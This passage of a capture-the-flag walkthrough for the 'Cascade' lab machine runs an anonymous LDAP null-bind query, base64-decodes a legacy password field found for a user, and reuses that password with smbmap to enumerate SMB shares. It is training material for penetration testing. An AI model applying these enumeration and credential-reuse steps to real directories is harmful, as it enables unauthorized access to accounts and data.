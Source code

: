 ```console
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-04-09T15:33:21
|_  start_date: 2020-04-09T12:57:01
```

If we look at port `389` and `3268` we see `nmap` gathered the domain of this box `cascade.local` - we add this to our hosts file entry as `cascade.htb`. At this point I spent a while enumerating all the services except LDAP - which I left last.

With a FQDN for AD we can attempt a [null bind LDAP query](https://securitysynapse.blogspot.com/2013/09/dangers-of-ldap-null-base-and-bind.html).

```console
$ ldapsearch -x -b "dc=cascade,dc=local" -H  ldap://cascade.local
[snip]
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
...
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
...
cascadeLegacyPwd: clk0bjVldmE=
[snip]
```

If we look at the last field, we see it is a base64 encoded legacy password for r.thompson.

```console
$ echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```

As an additional note, the query returns information on all users but it is also possible to query `msrpc` with `rpcclient` to dump user account information.

**Enumeration #2:**
We can use r.thompson's credentials to finally enumerate SMB since Guest authentication is disabled.

```console
$ python smbmap.py -H cascade.local -u r.thompson -p rY4n5eva
[snip]
	.
	dr--r--r--                0 Tue Jan 28 22:05:51 2020	.
	dr--r--r--                0 Tue Jan 28 22:05:51 2020	..
	dr--r--r--                0 Mon Jan 13 01:45:14 2020	Contractors
	dr--r--r--                0 Mon Jan 13 01:45:10 2020	Finance
	dr--r--r--                0 Tue Jan 28 18:04:51 2020	IT
	dr--r--r--                0 Mon Jan 13 01:45:20 2020	Production
	dr--r--r--                0 Mon Jan 13 01:45:16 2020	Temps
	Data                                              	READ ONLY
[snip]
```

